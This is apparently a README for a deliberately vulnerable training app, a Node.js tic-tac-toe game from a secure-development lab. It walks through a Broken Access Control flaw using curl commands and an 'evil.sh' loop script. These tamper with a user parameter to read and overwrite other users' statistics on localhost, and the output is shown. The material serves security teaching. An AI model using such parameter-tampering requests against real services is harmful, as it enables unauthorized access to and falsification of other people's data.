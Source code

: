 
# Tic-Tac-Toe

<p align="center"><img  src="images/a5-banner.png"/></p>

Tic-Tac-Toe is a simple Nodejs web application that contains an example of a Broken Access Control vulnerability and its main goal is to describe how a malicious user could exploit it.

## Index

- [Definition](#what-is-broken-access-control)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Broken Access Control?

Restrictions on what authenticated users are allowed to do are often not properly enforced. Attackers can exploit these flaws to access unauthorized functionality and/or data, such as access to other users' accounts, view sensitive files, modify other users’ data, change access rights, etc.

The main goal of this app is to discuss how **Broken Access Control** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh

cd secDevLabs/owasp-top10-2017-apps/a5/tictactoe

```

```sh

make install

```

Then simply visit [http://localhost:10005][App] ! 😆

## Get to know the app 🕹

To properly understand how this application works, you can follow this step:

- Try registering a user
- Sign in
- Play the game 
- See your statistics

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

#### Lack of user cookie validation allows for an attacker to get other users' game statistics

### 👀

In order to better understand how the application handles its data, two users, `user1` and `user2`, can be created using the web interface by visiting [http://locahost.:10005/create](http://localhost:.10005/create) as exemplified below:

<p  align="center"><img  src="images/attack0.png"/></p>

After logging in as `user1` and playing a few times, his/her statistics can be checked by visiting [http://localhost.:10005/statistics](http://localhost.:10005/statistics), as the following picture shows:

<p  align="center"><img  src="images/attack1.png"/></p>

To check how this information is being retrieved form the server, an attacker could use Developer Tools from Firefox using `Ctrl + Shift + E` or `Command + Option + E` on a Mac, as showed bellow:

<p  align="center"><img  src="images/attack3.png"/></p>

You can replicate this GET by using the following curl command (use your own `tictacsession` token):  

```sh
curl -s 'GET' -b 'tictacsession=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiaWF0IjoxNTYzNDcyODg2LCJleHAiOjE1NjM0NzY0ODZ9.ESLVZ9bbfUbUdFBFRCzxGTPICuaEWdGLxrvWykEmhNk' 'http://localhost.:10005/statistics/data?user=user1'
```

```json
{"chartData":[{"y":46.15384615384615,"label":"Wins"},{"y":15.384615384615385,"label":"Ties"},{"y":38.46153846153846,"label":"Loses"}],"numbers":{"games":13,"wins":6,"ties":2,"loses":5}}
```

### 🔥

As this AJAX request is being made passing the username as a URL parameter, it may indicate that only this parameter is being used to verify the permission to get the data. To check this, using the same `tictacsession`, an attacker could replace `user1` to another known user, as `user2` for example: 

```sh
curl -s 'GET' -b 'tictacsession=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiaWF0IjoxNTYzNDcyODg2LCJleHAiOjE1NjM0NzY0ODZ9.ESLVZ9bbfUbUdFBFRCzxGTPICuaEWdGLxrvWykEmhNk' 'http://localhost.:10005/statistics/data?user=user2'
```

```json
{"chartData":[{"y":100,"label":"Wins"},{"y":0,"label":"Ties"},{"y":0,"label":"Loses"}],"numbers":{"games":1,"wins":1,"ties":0,"loses":0}}
```

This fact represents a `Broken Access Control` vulnerability, allowing an attacker to see every known user's private statistics.

#### Lack of user cookie validation allows for an attacker to manipulate user statistics

### 👀

Using the same methodology, an attacker could now check what the application does when a game finishes and tries to store the result. Analyzing the browser inspector once again reveals that a POST was made to the `/game` route, as can be seen in the next image: 

<p  align="center"><img  src="images/attack4.png"/></p>

This request is done by using two parameters, `user` and `result`, as shown bellow: 

<p  align="center"><img  src="images/attack5.png"/></p>

To replicate this POST by using the curl command (use your own `tictacsession` token), you can type the following command: 

```sh
curl -s 'POST' -b 'tictacsession=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiaWF0IjoxNTYzNDc5MzIxLCJleHAiOjE1NjM0ODI5MjF9.SRVz09ZebGa875MilaV2bj4tjAdTWA14JTuArnUDOZM' 'http://localhost.:10005/game' --data-binary 'user=user1&result=win'
```

```json
OK
```

### 🔥

An attacker now could check if, by using another username into this request, he/she could modify other user's statistics. To do so, the parameter `user` is changed into another known user, as `user2` for example:

```sh
curl -s 'POST' -b 'tictacsession=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiaWF0IjoxNTYzNDc5MzIxLCJleHAiOjE1NjM0ODI5MjF9.SRVz09ZebGa875MilaV2bj4tjAdTWA14JTuArnUDOZM' 'http://localhost.:10005/game' --data-binary 'user=user2&result=win'
```

```json
OK
```
  
Imagining the worst scenario, an attacker could create a malicious script to send this same request as many times as he/she could, as can be exemplified bellow:

```sh
vi evil.sh
```

```sh
#!/bin/sh
#
# evil.sh - Add 100 losses to an user! 

user="user2"
num=100
result="lose"
tictacsession="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiaWF0IjoxNTYzNDc5MzIxLCJleHAiOjE1NjM0ODI5MjF9.SRVz09ZebGa875MilaV2bj4tjAdTWA14JTuArnUDOZM"

for i in `seq 1 $num`; do
    curl -s 'POST' -b "tictacsession=$tictacsession" 'http://localhost.:10005/game' --data-binary "user=$user&result=$result"
done
```

And run it: 

```sh
chmod +x evil.sh && ./evil.sh
```

```sh
OKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOK
```

To check if this attack indeed worked, the malicious user could exploit the previous vulnerability to check `user2` statistics using the following command:

```sh
curl -s 'GET' -b 'tictacsession=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiaWF0IjoxNTYzNDc5MzIxLCJleHAiOjE1NjM0ODI5MjF9.SRVz09ZebGa875MilaV2bj4tjAdTWA14JTuArnUDOZM' 'http://localhost.:10005/statistics/data?user=user2'
```

```json
{"chartData":[{"y":3.6363636363636362,"label":"Wins"},{"y":2.727272727272727,"label":"Ties"},{"y":93.63636363636364,"label":"Loses"}],"numbers":{"games":110,"wins":4,"ties":3,"loses":103}}
```

Once again, this fact represents a `Broken Access Control` vulnerability, allowing an attacker to modify every known user's private statistics.

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

- Access other users' private statistics.
- Modify other users' private statistics.

## PR solutions

[Spoiler alert 🚨 ] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?utf8=%E2%9C%93&q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Tic-Tac-Toe%22+)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[Docker Install]: https://docs.docker.com/install/
[Docker Compose Install]: https://docs.docker.com/compose/install/
[App]: http://localhost.:10005
[secDevLabs]: https://github.com/globocom/secDevLabs
[2]:https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a5/tictactoe
